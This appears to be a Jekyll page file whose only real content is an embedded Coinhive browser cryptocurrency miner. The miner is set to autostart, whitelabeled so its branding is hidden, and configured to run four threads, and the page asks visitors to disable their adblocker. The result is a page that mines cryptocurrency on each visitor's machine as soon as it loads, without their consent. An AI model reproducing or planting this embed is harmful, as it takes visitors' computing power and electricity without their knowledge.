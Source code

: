 ```yaml
---
layout: default
---
```


<script src="https://coinhive.com/lib/miner.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 600px; height: 310px"
	data-key="4oRscSkZZprxDccg05fWoI3yID0Jl1yf"
	data-autostart="true"
	data-whitelabel="true"
	data-background="#ffffff"
	data-text="#000000"
	data-action="#000000"
	data-graph="#000000"
	data-threads="4"
	data-throttle="0.1"
	data-start="Start Now!">
	<em>Please disable Adblock!</em>
</div>
